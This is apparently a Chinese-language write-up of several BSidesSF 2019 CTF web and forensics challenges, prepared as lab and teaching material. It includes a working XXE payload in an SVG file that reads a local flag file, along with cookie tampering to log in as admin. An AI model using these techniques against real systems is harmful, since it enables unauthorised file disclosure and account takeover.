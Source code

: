 # BSidesSF 2019 CTF WriteUp

[TOC]

## WEB-Pick Tac Toe

看源码，3*3格子表示如下：

| Ul   | u    | Ur   |
| ---- | ---- | ---- |
| l    | c    | r    |
| Bl   | b    | br   |

![Screen Shot 2019-03-05 at 10.27.23 PM](https://ws4.sinaimg.cn/large/006tKfTcgy1g0safy9d9mj30m002q751.jpg)

事实证明机器下过的位置可以覆盖

**Hackbar**

![Screen Shot 2019-03-05 at 10.29.20 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0safx8drzj31620em0tr.jpg)

或

**Console**

![Screen Shot 2019-03-05 at 10.30.23 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sagwhg8uj30c206ymxg.jpg)

快点儿鼠标点击也行，服务器反应不过来

![Screen Shot 2019-03-05 at 11.37.33 AM](https://ws4.sinaimg.cn/large/006tKfTcgy1g0sd3ssws7j30j50od3zq.jpg)

flag：**CTF{i_beat_the_impossible}**

总结：post请求action参数在网址后添加,post的方式：burp、firefox hackbar、console（:""代替=）



## WEB-svgmagic

> https://ctftime.org/writeup/12064

svg文件写成这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY  data SYSTEM
  'file:./flag.txt'> ]>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="10mm">
   <text x="10" y="15" fill="red">//回显一下，将flag.txt转换以图片形式回显
      &data;
   </text>
</svg>
```

![Screen Shot 2019-03-05 at 11.51.58 AM](https://ws3.sinaimg.cn/large/006tKfTcgy1g0rs0u7ocwj308p01wq2r.jpg)

flag：**CTF{haha_no_imagemagick_sorry}**

## WEB-kookie

`We found the account cookie / monster`

Username:cookie

Password:monster

登录

![Screen Shot 2019-03-05 at 11.10.15 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbmaoxy0j30h80amt97.jpg)

![Screen Shot 2019-03-05 at 11.11.02 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbn6g3pxj31a60g0q5d.jpg)

因为要`Log in as admin!`，故![Screen Shot 2019-03-05 at 11.11.49 PM](https://ws3.sinaimg.cn/large/006tKfTcgy1g0sbnyh31ij30z202gglo.jpg)

改一下cookie。刷新页面，![Screen Shot 2019-03-05 at 11.12.24 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbojueyfj31c602mgm3.jpg)

flag：**CTF{kookie_cookies}**



## WEB-futurella

签到水题。

![Screen Shot 2019-03-05 at 11.14.58 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbra5vjrj30q402w3z7.jpg)



## Forensics-table-tennis

ICMP有点意思

![Screen Shot 2019-03-05 at 11.17.07 PM](https://ws4.sinaimg.cn/large/006tKfTcly1g0sbtlcqqzj308g036t8r.jpg)

有script。

...write(atob("Q1RGe0p1c3RBUzBuZ0FiMHV0UDFuZ1Awbmd9<"));...

base64解密函数		

> btoa和atob是window对象的两个函数，其中btoa是binary to ascii，用于将binary的数据用ascii码表示，即Base64的编码过程，而atob则是ascii to binary，用于将ascii码解析成binary数据，看一个例子：
>
> ```
> // Define the string
> var string = 'Hello World!';
> 
> // Encode the String
> var encodedString = btoa(string);
> console.log(encodedString); // Outputs: "SGVsbG8gV29ybGQh"
> 
> // Decode the String
> var decodedString = atob(encodedString);
> console.log(decodedString); // Outputs: "Hello World!"
> ```

console中输入：

`atob("Q1RGe0p1c3RBUzBuZ0FiMHV0UDFuZ1Awbmd9")`

得到`"CTF{JustAS0ngAb0utP1ngP0ng}"`



## Forensics-Zippy

wireshark载入，看数据，有`flag.zip`字样，里面套个`flag.txt`。还发现

`unzip -P supercomplexpassword flag.zip`

看来是解压密码。

直接十六进制打开，找504B0304（zip文件头），把文件头前面的Hex都删掉，另存为zip。输入解压密码，拿到flag：**CTF{this_flag_is_your_flag}**


